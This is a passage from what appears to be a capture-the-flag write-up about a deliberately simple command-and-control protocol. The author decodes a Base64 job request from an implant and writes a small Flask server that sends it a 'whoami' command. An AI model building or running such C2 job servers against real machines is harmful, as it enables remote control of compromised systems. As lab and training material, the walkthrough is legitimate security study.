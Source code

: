 ```text
🗒️📌 NOTE

Here, you are looking at a custom and extremely limited (and poorly designed) C2 system. 
Part of the challenge is understanding the protocol and building a client to use with the C2 server. There is no point in looking for an existing C2 client that will work here.
```

We can now also use a simple `Python` HTTP server to monitor for further activity.

`python3 -m http.server 81`

![Python HTTP Server](screenshots/python-http.png)

There is an interesting parameter in one of the HTTP calls (`/get-job/ImxhdGVzdCI=`). As this also looks like Base64, let us decode it.

```bash
echo "ImxhdGVzdCI=" | base64 -d
"latest"
```

As we can see, the implant – so we assume – is requesting the "latest" job from us. Fortunately, looking at the heartbeat, we have an idea about what "jobs" look like.

```json
{"job_id": 0, "cmd": "whoami"}
```

We will now use a simple `Flask` server to interface with the implant.

```python
from flask import Flask

app = Flask(__name__)

@app.route('/get-job/ImxhdGVzdCI=')
def get_job():
    return '{"job_id": 0, "cmd": "whoami"}'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=81)
```
